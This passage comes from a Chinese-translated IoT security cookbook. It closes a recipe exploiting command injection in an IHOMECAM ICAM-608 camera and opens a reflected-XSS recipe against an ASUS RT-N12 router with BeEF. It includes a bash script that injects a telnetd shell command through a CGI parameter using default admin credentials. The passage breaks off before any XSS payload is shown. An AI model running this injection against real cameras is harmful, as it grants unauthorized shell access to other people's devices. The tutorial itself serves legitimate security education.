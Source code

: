 11.  在授予 shell 后，可以在设备的 LAN 上使用多种技术进行后期开发。本配方中不包括开发后技术；但是，我们可以使用以下 bash 脚本轻松编写命令注入有效负载的脚本，以确保访问：

```
#!/bin/sh  
wget -q'- 'http://192.168.1.177/set_ftp.cgi?next_url=ftp.htm&loginuse=admin&loginpas=admin&svr=192.168.1.1&port=21&user=ftp&pwd=$(telnetd -p25 -l/bin/sh)&dir=/&mode=PORT&upload_interval=0'  
wget -qO- 'http://192.168.1.177/ftptest.cgi?next_url=test_ftp.htm&loginuse=admin&loginpas=admin' 
telnet 192.168.1.177 25  
```

在这个配方中，我们在 IHOMECAM ICAM-608 IP 摄像头上发现并利用了命令注入。我们能够获得 shell 访问权限，并创建一个脚本来自动利用命令注入。

# 另见

*   要了解有关查找和防止命令注入的更多信息，请参阅 OWASP 的命令注入 wiki 页面（[https://www.owasp.org/index.php/Command_Injection](https://www.owasp.org/index.php/Command_Injection) 以及 OWASP 的嵌入式应用安全项目（[https://www.owasp.org/index.php/OWASP_Embedded_Application_Security](https://www.owasp.org/index.php/OWASP_Embedded_Application_Security) ）。

# 利用 XSS

XSS 是一种攻击类型，它在受信任网站的上下文中从不受信任的源执行和注入任意 JavaScript。当攻击者在 web 应用程序中发现一个易受攻击的参数时，就会发生 XSS 攻击，该参数在向用户呈现内容之前执行动态内容而不验证或输出编码字符。XSS 攻击利用浏览器的传输攻击有效载荷，因为浏览器相信代码是可信的。XSS 漏洞有三种类型：反射（最常见）、存储和基于 DOM。当参数数据被复制并回显到应用程序的响应中而不清理其内容时，就会出现反射性 XSS 漏洞。当应用程序允许将参数输入数据存储在应用程序的数据库中供以后使用时，就会出现存储的 XSS 漏洞。**文档对象模型**（**DOM**）当来自参数的数据通过 JavaScript 函数馈入 DOM 元素时，会出现 XSS 漏洞。

成功利用 XSS 的攻击者将能够执行以下操作：

*   关键日志数据
*   攻击受害者的**局域网**（**局域网**）
*   代理通过名为**浏览器中人**（**MITB**的受害者的所有网络流量
*   窃取或修改用于会话劫持的应用程序 cookie
*   修改受害者应用程序的外观
*   绕过 CSRF 安全控制

为了成功地攻击受害者，攻击者需要执行一种社会工程技术，让用户执行恶意请求。XSS 攻击的常见社会工程方法如下：

*   使用恶意 JavaScript 创建假网站并链接到其页面
*   发送嵌入恶意 web URL 的电子邮件
*   使用 URL 缩短器屏蔽 URL

在每种情况下，初始 URL 都将链接到受信任的受害者的站点，并在用户不知情的情况下异步执行恶意 JavaScript 代码。在此配方中，我们将逐步发现并利用一个反射性 XSS 漏洞，该漏洞将完全控制受害者的浏览器。

# 准备

对于此配方，我们将使用 OWASP ZAP、**浏览器开发框架**（**BeEF**）和易受攻击的 RT-N12 ASUS 路由器。牛肉可通过[安装 http://beefproject.com](http://beefproject.com) 或在默认安装 BeEF 的 Kali Linux 虚拟机中使用。

# 怎么做。。。

当试图查找反射 XSS 漏洞时，我们首先观察参数输入行为，以查看数据是否反射回用户。Web 代理（如 OWASP ZAP 和 Burp Suite）可以通过其扫描引擎帮助实现发现过程的自动化：
